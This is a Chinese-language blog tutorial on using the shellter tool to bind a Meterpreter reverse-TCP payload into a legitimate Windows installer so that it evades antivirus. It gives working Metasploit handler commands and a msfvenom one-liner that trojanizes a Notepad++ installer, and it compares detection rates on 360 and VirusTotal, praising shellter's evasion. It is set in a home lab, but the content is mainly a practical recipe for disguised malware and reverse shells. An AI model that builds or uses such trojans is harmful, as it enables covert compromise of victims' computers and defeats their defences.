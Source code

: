 ```yaml
---
title: 免杀捆绑工具 shellter 的安装及使用
date: 2022-4-16 18:10:24
tags: [Trojan horse,Linux,Kali,Metasploit,shellter]
categories: 
 - [渗透测试,木马-Trojan horse]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682443290/Typera/2023/04/d9bcdac19a99f14fe88a3ed9e829d637.png
---
```


:::default
**shellter** 是一个**捆绑**工具，采用动态 **shellcode** 注入 的方式，将 **shellcode** 注入到其它程序中，达到**免杀**的效果，躲避杀软的查杀。
:::

## shellter 安装
1. 添加 **i386 32位** 架构支持、更新 **apt**、安装 **wine** 依赖：
	- `dpkg --add-architecture i386 && apt update && apt -y install wine32`
2. 安装 **shellter**：
	- `apt install shellter`
	![image-20230426011840045](https://res.cloudinary.com/sycamore/image/upload/v1682443125/Typera/2023/04/0c4297a033272d1212d9cb86e4daf005.png)
## shellter 使用
> 使用 shellter 捆绑 Meterpreter_Reverse_TCP

**捆绑步骤：**
1. 命令行输入 `shellter` 打开工具
2. 输入 `A` 或者 `a`，选择 **自动模式**；
3. `PE Target:` 后输入要进行 **捆绑** 的 **文件路径**
![image-20230426011919683](https://res.cloudinary.com/sycamore/image/upload/v1682443164/Typera/2023/04/272fa29e9da9d004a3cf25b87079f7de.png)
<br>
4. 输入`Y`，进入 **隐形模式**
![image-20230426011923428](https://res.cloudinary.com/sycamore/image/upload/v1682443168/Typera/2023/04/0ac54c6f74fda57f2a51ac0b8bde409f.png)
<br>
5. 输入`L`，使用 **payload** 攻击模块列表（即上面的 **1~7** ）
6. **payload** 编号选择 `1` ，使用 Meterpreter_Reverse_TCP 攻击
![image-20230426011927372](https://res.cloudinary.com/sycamore/image/upload/v1682443172/Typera/2023/04/073c31195d0c78a68e8b3c2fecbc8531.png)
<br>
7. 分别输入监听端的 **IP**、**端口号**
![image-20230426011931101](https://res.cloudinary.com/sycamore/image/upload/v1682443175/Typera/2023/04/396417290b20f351cc3c1d96669a3c4e.png)
<br>
8. 按 `[Enter]` 退出 **shellter** ：
![image-20230426011934700](https://res.cloudinary.com/sycamore/image/upload/v1682443179/Typera/2023/04/0169aba2f4b7dfa0ba83b3304994339f.png)

<br>

**[ 关于生成的文件 ]**
> **捆绑完毕**的文件 会代替 **原文件** ，即出现在 原文件目录 下，**名字相同**
> 而**原文件**会 **备份** 在目录 `/root/Shellter_Backups/` ：
> ![image-20230426011938517](https://res.cloudinary.com/sycamore/image/upload/v1682443183/Typera/2023/04/9b58fed5ce217d4b84967579f2522d55.png)
## 利用 & 免杀效果
### 利用
1. 上传到 **Win7_x64** 虚拟机，
2. **Kali_Linux** 虚拟机打开 **msf** （命令 `msfconsole`），监听**反弹 shell**：
	- `use exploit/multi/handler`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set LHOST 192.168.158.139`
	- `set LPORT 4444`
	- `run`

**反弹 shell** 成功！
![image-20230426011944783](https://res.cloudinary.com/sycamore/image/upload/v1682443189/Typera/2023/04/4eff497abdd31d7be53e51e0d88f75f7.png)

### 免杀效果
我的 **Win7_x64 虚拟机** 安装了 **360 全家桶**，

但是 **静态检测** 貌似并没有查出 **木马文件** ~

运行木马程序，并成功获得 **meterpreter** 的 **shell** 之后，**360** 竟然也没有第一时间报毒。。。 什么情况 (⊙_⊙)？

大概一分钟之后，才提示有木马：
![image-20230426011949574](https://res.cloudinary.com/sycamore/image/upload/v1682443194/Typera/2023/04/69719cbb27c9df97660f0c6405be89c7.png)
（实际上这个时间足够黑客 **迁移进程** 并 **布置后门** 了)

当然，如果你的电脑以前中过这个毒，**360** 会第一时间反应过来
（但这要是**还没反应**，**360** 就该进回收站了）

然后看看 **virustotal** 的检测情况（**31 / 70**）：[检测报告 传送门1](https://www.virustotal.com/gui/file/e4e97bef85f3970d42e81d6f75815050d7ff2370790888fe9d78948bc83b30a7)
![image-20230426011954090](https://res.cloudinary.com/sycamore/image/upload/v1682443198/Typera/2023/04/6a65ae126f5f5f5c0658d6165d837a04.png)

***对比 ：***
使用 同程序 同**payload**，用 **msf** 自带的捆绑手段生成的木马：
（命令：`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.158.139 LPORT=4444 -x npp.8.1.4.Installer.exe -f exe > mp_npp.exe`）

**virustotal** 的检测情况（**40 /  70**）：[检测报告 传送门2](https://www.virustotal.com/gui/file/c3a7c2280e4aa9aa0693729049f7f8e0ff05e253c1047ef282748c3509687207)
![image-20230426011958597](https://res.cloudinary.com/sycamore/image/upload/v1682443202/Typera/2023/04/c0631de31f6d8f365c052ec14a014b37.png)

> 相比较而言，可以说 **shellter** 的捆绑**免杀**效果比 **msf** 好很多了。
